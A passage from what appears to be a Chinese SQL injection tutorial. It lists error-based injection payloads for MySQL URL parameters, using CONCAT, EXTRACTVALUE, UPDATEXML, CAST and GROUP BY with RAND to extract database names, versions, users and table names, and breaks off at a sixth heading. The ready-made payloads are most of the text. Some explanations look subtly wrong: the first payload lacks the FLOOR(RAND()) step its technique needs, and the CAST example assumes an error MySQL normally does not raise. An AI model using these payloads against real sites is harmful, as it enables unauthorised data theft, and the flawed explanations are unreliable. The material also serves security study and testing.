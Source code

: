 ### 1. 利用 `CONCAT` 函数的报错注入

通过 `CONCAT` 函数拼接数据，强制数据库返回错误信息。

**示例**：
```sql
?id=1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x7e, (SELECT version())) AS x FROM information_schema.tables GROUP BY x) t)--
```

- **解析**：`CONCAT` 拼接了当前数据库名和版本号。数据库尝试在 `GROUP BY` 中合并重复数据，因数据类型不匹配，产生错误并显示敏感信息。

### 2. 利用 `EXTRACTVALUE` 函数的报错注入（MySQL）

`EXTRACTVALUE` 是 MySQL 的 XML 处理函数，通常用于解析 XML。输入非 XML 数据会触发错误。

**示例**：
```sql
?id=1' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT database()), 0x7e))--
```

- **解析**：`EXTRACTVALUE` 尝试解析 XML 路径，`CONCAT` 将当前数据库名插入其中。因为解析失败，数据库返回包含数据库名称的错误信息。

### 3. 利用 `UPDATEXML` 函数的报错注入（MySQL）

`UPDATEXML` 同样用于 XML 解析，在输入非 XML 数据时会报错。

**示例**：
```sql
?id=1' AND UPDATEXML(1, CONCAT(0x7e, (SELECT user()), 0x7e), 1)--
```

- **解析**：`UPDATEXML` 试图更新 XML 数据，但由于 `user()` 的结果非 XML 格式，解析失败并返回数据库用户信息。

### 4. 使用 `CAST` 或 `CONVERT` 的类型转换报错

通过 `CAST` 或 `CONVERT` 函数强制转换数据类型，如果转换的数据格式不匹配，会引发错误。

**示例**：
```sql
?id=1' AND (SELECT 1 FROM (SELECT CAST((SELECT table_name FROM information_schema.tables LIMIT 1) AS SIGNED)) t)--
```

- **解析**：将表名 `table_name` 转换为整数（`SIGNED`），因为字符串不能转换为数值，引发错误并显示表名。

### 5. 使用 `GROUP BY` 或 `ORDER BY` 结合 `HAVING` 的报错注入

通过 `GROUP BY` 和 `HAVING` 子句的聚合函数引发错误，可以暴露数据。

**示例**：
```sql
?id=1' GROUP BY CONCAT((SELECT database()), 0x7e, FLOOR(RAND(0)*2)) HAVING COUNT(*)>1--
```

- **解析**：利用 `RAND(0)` 生成重复随机值，并将数据库名 `database()` 作为一部分进行 `GROUP BY` 操作。因为随机值重复导致聚合错误，错误消息中显示数据库名。

### 6. 使用 `TIMESTAMP` 类型转换的报错注入
